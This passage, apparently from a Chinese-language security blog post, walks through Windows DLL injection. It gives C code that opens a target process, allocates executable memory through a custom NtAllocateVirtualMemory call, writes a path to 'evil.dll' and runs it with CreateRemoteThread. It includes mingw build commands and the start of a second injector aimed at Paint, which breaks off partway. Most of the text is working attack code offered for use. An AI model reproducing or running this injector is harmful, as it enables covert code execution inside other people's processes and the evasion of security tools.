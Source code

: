 ```
  if (atoi(argv[1]) == 0) {
    printf("Process ID not found. Exiting...\n");
    return -1;
  }
  printf("Process ID: %i", atoi(argv[1]));
  targetProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  myNtAllocateVirtualMemory(targetProcess, &remoteBuffer, 0, (PULONG)&maliciousLibraryPathLength, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // Inject the malicious DLL into the target process
  WriteProcessMemory(targetProcess, remoteBuffer, maliciousLibraryPath, maliciousLibraryPathLength, NULL);

  // Start a new thread in the target process
  remoteThread = CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryFunction, remoteBuffer, 0, NULL);
  CloseHandle(targetProcess);
  return 0;
}
```  
  
C代码中使用extern "C"标记外部调用，调用汇编代码里的函数  
  
编译成.o格式  
```
x86_64-w64-mingw32-g++ -m64 -c hack2.c -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -Wall -shared -fpermissive
```  
  
把两个.o编译成exe  
```
x86_64-w64-mingw32-gcc *.o -o hack2.exe
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VZNmh6ic5umfAwo27ichgO5dI99KVZnKQ9kFrkugvHzrAFg2xfFP6mVqeyo2ibCsmKO6cb4bjsiakNQ9fribpHyprtA/640?wx_fmt=png&from=appmsg "")  
  
  
下面一个例子是启动一个画图板在进行注入  
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

#pragma comment(lib, "ntdll")

typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(  HANDLE             ProcessHandle,  PVOID              *BaseAddress,  ULONG              ZeroBits,  PULONG             RegionSize,  ULONG              AllocationType,  ULONG              Protect);

char maliciousLibraryPath[] = "evil.dll";
unsigned int maliciousLibraryPathLength = sizeof(maliciousLibraryPath) + 1;

int findProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;
```